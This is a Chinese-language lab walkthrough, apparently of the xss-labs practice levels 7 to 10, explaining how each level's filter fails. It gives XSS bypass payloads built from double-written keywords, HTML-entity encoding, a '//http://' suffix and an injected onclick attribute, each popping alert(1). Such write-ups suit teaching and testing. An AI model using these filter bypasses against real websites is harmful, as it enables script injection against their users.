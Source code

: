 我们看到过滤代码只进行一次过滤，而非递归或循环过滤，因此我们将涉及的过滤关键字再写一遍插入到原关键字中，使得过滤时触发关键字被替换为空，过滤后又拼组成关键字并带到前端。则XSS语句为

```
3333"><a hrhrefef="javascscriptript:alert(1);">链接文本</a><"
```

提交后执行成功

### Level-8——关键字、大小写、双写无法绕过——Unicode编码绕过

基于以上的过滤手法，我们想到编码绕过思路

在超级加解密工具中选择编码方式为

![](https://gitee.com/YatJay/image/raw/master/img/202203061013324.png)

对提交内容进行编码后在提交，`javascript:alert(1);`的编码结果如下：

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#59;
```

提交后点击友情链接，成功触发XSS代码

### Level-9——关键字、大小写、双写无法绕过+检查`http://`

绕过思路

- 编码绕过关键字过滤
- 添加`//http://`，满足提交参数包含`http://`，js语句执行时`//`后的语句注释掉，以避免影响js语句执行

则XSS代码如下，即在上一关的`javascript:alert(1);`编码之后添加`//http://`

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#59;//http://
```

提交后添加友情链接，成功触发XSS语句

### Level-10——关键字、大小写、双写无法绕过+表单`type=“hidden”`属性——

我们设法使得表单里的input标签出现onclick鼠标触发事件属性，并且由于需要鼠标点击，那么type属性也不能为hidden，当`input`标签中同时出现`type=“hidden”`和`type=“text”`两种属性时，会执行后者，因此可以添加`type=“text”`属性到`input`标签中去

原始input标签如下

```html
<input name="t_sort"  value="888" type="hidden">
```

目的input标签如下

```html
<input name="t_sort"  value="888" onclick="alert(1)" type="text" type="hidden">
```

则XSS语句如下(GET参数提交)

```html
?keyword=2222&t_sort=888" onclick="alert(1)" type="text
```
